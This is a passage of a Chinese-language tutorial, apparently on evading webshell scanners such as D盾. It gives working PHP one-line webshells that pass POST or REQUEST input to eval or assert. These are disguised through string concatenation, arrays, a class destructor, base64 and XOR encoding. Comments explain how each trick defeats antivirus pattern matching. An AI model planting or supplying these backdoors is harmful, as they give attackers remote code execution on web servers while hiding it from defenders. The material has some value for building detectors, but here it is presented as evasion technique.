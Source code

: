 ```php
<?php
$a = $_REQUEST['a'];
$b = null;
eval($b.$a);
?>
<?php
$a = $_POST['a'];
$b = "\n";
eval($b.=$a);
?>
<?php
function dog($a){
    \assert($a);
}
dog($_POST[x]);
?>
```
## 2.5. 数组
把执行代码放入数组中执行绕过
```php
<?php
$a = substr_replace("assexx","rt",4);
$b=[''=>$a($_POST['q'])];
?>
//多维数组

<?php
$b = substr_replace("assexx","rt",4);
$a = array($arrayName = array('a' => $b($_POST['q'])));
?>
```
## 2.6. 类
说到类肯定要搭配上魔术方法比如 __destruct()，__construct()
```php
<?php 
class me
{
  public $a = '';
  function __destruct(){
    assert("$this->a");
  }
}
$b = new me;
$b->a = $_POST['x'];
?>
//用类把函数包裹,D 盾对类查杀较弱
```
## 2.7. 编码
用 php 的编码函数，或者用异或、简单的 base64_decode, 其中因为他的正则匹配可以加入一些下划线干扰杀软
```php
<?php
$a = base64_decode("YXNz+ZX____J____0");
$a($_POST[x]);
?>
//异或
<?php
$a= ("!"^"@").'ssert';
$a($_POST[x]);
?>
```